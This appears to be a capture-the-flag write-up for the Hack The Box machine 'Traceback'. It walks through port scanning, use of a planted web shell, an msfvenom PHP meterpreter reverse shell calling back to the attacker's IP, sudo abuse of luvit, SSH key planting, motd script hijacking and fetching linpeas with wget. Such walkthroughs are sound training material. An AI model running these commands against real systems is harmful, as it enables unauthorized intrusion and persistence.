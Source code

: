 # Traceback

Machine IP:  10.10.10.181 

# Enumeration

```s
nmap -sV -sC 10.10.10.181
```

Service detection: `-sV`

Output:

```s
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`http-title` is interesting.

```s
nmap -sC -sV -A -v -p- -oA full_scan 10.10.10.181 -T4
```

No further interesting things.

# Port 80

Apache httpd 2.4.29 ((Ubuntu)) server on port 80. Have a visit: `http://10.10.10.181:80`.

Enumerating it further. Found the following stuff:

```s
http://10.10.10.181:80/icons/           403 (Forbidden)
http://10.10.10.181:80/icons/small/     403 (Forbidden)
http://10.10.10.181:80/index.html       200 (OK)
http://10.10.10.181:80/server-status    403 (Forbidden)
```

# Source-code (Foothold)

Sourcecode of the page says `<!--Some of the best web shells that you might need ;)-->`. On searching this along with `Xh4H`, we reach this [tweet](https://twitter.com/riftwhitehat/status/1237311680276647936?lang=en) by the same person pointing to a repo of some web shells. Searching these on the actual server, one hit is found.

```
http://10.10.10.181/smevk.php
```

Opening this file `smevk.php`, the username and password are `admin` and `admin`.

This is a pretty useless shell, except it has write access. So cool. Let us create a custom payload and send it there.

1. `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.45 LPORT=1234 -f raw -o shell.php`

2. Set up a listener

```
use exploit/multi/handler 
set LHOST 10.10.14.45
set LPORT 1234
set PAYLOAD php/meterpreter/reverse_tcp 
exploit
```

3. Load `http://10.10.10.181/shell.php` in the browser.

4. Type `shell` to get a shell.

5. Upgrade the shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`


# Enumeration inside the system

Inside the home directory, there is this `webadmin` which has a `note.txt` which says:

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Running `sudo -l` gives the following:

`(sysadmin) NOPASSWD: /home/sysadmin/luvit`

Running `sudo -u sysadmin /home/sysadmin/luvit` runs a lua file.

# Privelege escalation to user sysadmin

Spawn a shell:

```
sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
```

Upgrade the shell using `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Go to the `user.txt` in `home` to get the user flag.

# Privelege escalation to root

Further searching reveals `OpenSSH RSA public key` file in `.ssh` directory within `sysadmin` in `home`. Then tried to add a known host to those files for a passwordless login:


1. `ssh-keygen` on local system: generates private and public keys

2. Copy entire public key to the `sysadmin` `authorized_keys` on the remote end. `echo ... > authorized_keys`

3. Attempt login `ssh sysadmin@10.10.10.181` from your end. You will see `Welcome to Xh4H land`.

On further searching, found that these are located in `/etc/update-motd.d` as `00-header` which is writable by the group `sysadmin` and created by `root`. 

1. Add `echo "cat root/root.txt" >> 00-header` (I guess this >> is there instead of > because we need to append not overwrite).

2. Re-attempt ssh login from the device. The hash gets printed.


And how exactly I searched? `linpeas` from [this link](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
) gave output that involved:

```
/bin/sh -c sleep 30 ; /bin/cp /var/backup/.update-motd.d/* /etc/update-motd.d/
```

Implies a shell script that after every 30 seconds copies the contents of backup motd to the main motd. 

Sending `linpeas` over `nc` was not sufficient. Needed to:

1. `python -m SimpleHTTPServer 80` on the attacker machine.

2. `wget http://IP:80/linpeas.sh` and `sh linpeas.sh`